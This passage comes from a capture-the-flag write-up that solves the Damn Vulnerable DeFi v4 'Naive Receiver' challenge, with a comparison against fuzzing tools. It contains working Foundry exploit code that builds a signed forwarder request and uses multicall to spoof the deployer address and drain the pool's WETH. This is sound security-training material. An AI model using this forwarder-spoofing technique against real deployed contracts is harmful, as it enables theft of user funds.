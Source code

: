 ```solidity
} 
```
```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    Attacker attacker = new Attacker();
    attacker.attack(pool, receiver, weth);
    ...
}
```
Now we send all pool funds to recovery. We remember that we ignored the player's private key when testing through Halmos. The real attack, of course, requires us to craft a valid request to the **Forwarder**. This time we won't use an **attacker** contract. We don't want to transfer our private key to some contract :)
```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
...
    bytes[] memory callDatas = new bytes[](1);
    callDatas[0] = abi.encodePacked(abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
        bytes32(uint256(uint160(deployer)))
    );
    bytes memory callData;
    callData = abi.encodeCall(pool.multicall, callDatas);
    BasicForwarder.Request memory request = BasicForwarder.Request(
        player,
        address(pool),
        0,
        30000000,
        forwarder.nonces(player),
        callData,
        1 days
    );
    bytes32 requestHash = keccak256(
        abi.encodePacked(
            "\x19\x01",
            forwarder.domainSeparator(),
            forwarder.getDataHash(request)
        )
    );
    (uint8 v, bytes32 r, bytes32 s)= vm.sign(playerPk ,requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);
    require(forwarder.execute(request, signature));
}
```
Since we crafted the request ourselves, because we couldn't use calldata from Halmos for obvious reasons - I just copied this request from [here](https://medium.com/@opensiddhu993/challenge-2-naive-receiver-damn-vulnerable-defi-v4-lazy-solutions-series-8b3b28bc929d) by [@siddharth9903](https://github.com/siddharth9903) :).

```javascript
$ forge test -vv --mp test/naive-receiver/NaiveReceiver.t.sol
...
Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 2.53ms (1.50ms CPU time)
```
Did it!
## Compare with fuzzing
We can find foundry-based, echidna-based and meduza-based solutions to this problem [here](https://github.com/devdacian/solidity-fuzzing-comparison/tree/main/test/01-naive-receiver).
However, I haven't found any solutions for the updated version of Naive-receiver (v4). The fact is that a second bug was added in the new version, which is tied precisely to the calldata craft and in **"Truster"** it almost became a blocker. Therefore, let's check whether there are fuzzers at all are able to work out the following logic.
### Target